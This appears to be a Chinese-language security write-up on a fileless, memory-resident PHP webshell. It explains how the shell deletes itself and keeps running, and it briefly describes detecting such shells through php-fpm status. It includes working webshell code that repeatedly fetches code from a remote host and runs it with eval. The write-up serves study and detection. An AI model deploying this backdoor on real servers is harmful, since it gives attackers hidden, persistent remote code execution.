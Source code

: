 # 内存驻留webshell
## 一、攻击原理
php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：

    `ignore_user_abort(true); // 后台运行`
    
这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行

    `set_time_limit(0); // 取消脚本运行时间的超时上限`
    
括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。

脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。

这个值可以通过设置 `php.ini 的 max_execution_time` 或 `Apache .conf` 设置中对应的`“php_value max_execution_time”`参数或者 `set_time_limit()` 函数来更改。

php删除自身时借助的函数为

    `unlink($_SERVER['SCRIPT_FILENAME']);`
    
unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。

简单的webshell脚本：

``` php 
    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>
```
test.txt中的代码如下：

   ` file_put_contents('printTime.txt','jweny '.time());`
   
webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。

## 二、检测方案

通过获取php-fpm status：

1. 检查所有php进程处理请求的持续时间

2. 检测执行文件是否在文件系统真实存在
